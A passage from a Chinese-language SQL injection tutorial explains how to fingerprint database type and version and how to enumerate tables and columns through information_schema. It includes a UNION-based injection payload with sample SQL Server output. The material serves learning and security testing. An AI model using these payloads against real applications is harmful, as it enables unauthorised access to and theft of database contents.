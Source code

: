 `||`在Orcale中用于字符串连接。该payload把用户名和密码连接起来，并且用`~`分隔

### 查询数据库本身的信息

SQL注入中，通常需要收集与数据库本身相关的信息，比如数据库的类型和版本，以及包含的表名和列名。

#### 数据库的类型和版本

不同的数据库的查询语句也不同。通常需要多次查询来找到一个有效的查询，从而确定数据库的类型和版本

|    数据库类型    |         查询语句         |
| :--------------: | :----------------------: |
| Microsoft, MySQL |     SELECT @@version     |
|      Oracle      | SELECT \* FROM v$version |
|    PostgreSQL    |     SELECT version()     |

例如你输入如下paylaod

```sql
' UNION SELECT @@version--
```

如果返回类似下面的输出，那就确认数据库是Microsoft SQL Server并且也能得到它的版本

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

#### 列出数据库的内容

大多数数据库（除了Orcale）都有一个information schema用于提供有关数据库的信息

攻击者可以查询`information_schema.tables`以列出数据库中的表

```sql
SELECT * FROM information_schema.tables
```

输出可能是这样：

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

这个输出表明由三个表，分别是Products、Users和Feedback。

攻击者可以通过查询`information_schema.columns`来列出指定表的列

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
